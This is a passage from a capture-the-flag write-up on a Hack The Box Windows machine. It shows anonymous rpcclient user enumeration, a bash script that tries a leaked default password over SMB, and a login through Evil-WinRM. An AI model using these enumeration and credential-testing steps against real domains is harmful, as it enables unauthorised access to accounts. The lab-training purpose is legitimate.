 Let's see what we can glean from `rpcclient` with `enumdomusers`.

{% include image.html image_alt="55207cfd.png" image_src="/026c5de4-f79e-4b72-a7a3-30b14f9bf687/55207cfd.png" %}

That's a lot of users. We can use some `bash`-fu to query all users using `rpcclient` as the main driver.

```
for user in $(cat users.txt); do rpcclient 10.10.10.169 -U% -c "queryuser $user" 2>/dev/null && echo; done | tee userinfo.txt
```

{% include image.html image_alt="06b4d595.png" image_src="/026c5de4-f79e-4b72-a7a3-30b14f9bf687/06b4d595.png" %}

Something is amiss. Looks like the administrator has forgotten to remove the default password in the description. :wink:

With that in mind, let's write a simple script to test which user hasn't changed the password yet.

<div class="filename"><span>brute.sh</span></div>

```
#!/bin/bash

DOMAIN=megabank.local
HOST=10.10.10.169
NAME=RESOLUTE
USER=$1
PASS=$2

function die() {
  killall perl 2>/dev/null
}

if smbclient -I $HOST -L $NAME -U "$DOMAIN/$USER%$PASS" &>/dev/null; then
  echo "[*] User found: $USER"
  echo "[*] Password found: $PASS"
  die
fi
```

{% include image.html image_alt="e08b3797.png" image_src="/026c5de4-f79e-4b72-a7a3-30b14f9bf687/e08b3797.png" %}

So `melanie` is the one!

## Low-Privilege Shell

Armed with `melanie`'s password, let's see if she can log in to the remote machine via WinRM. Enter [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).

{% include image.html image_alt="55fc6a8a.png" image_src="/026c5de4-f79e-4b72-a7a3-30b14f9bf687/55fc6a8a.png" %}

Bingo!


[1]: https://www.hackthebox.eu/home/machines/profile/220
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/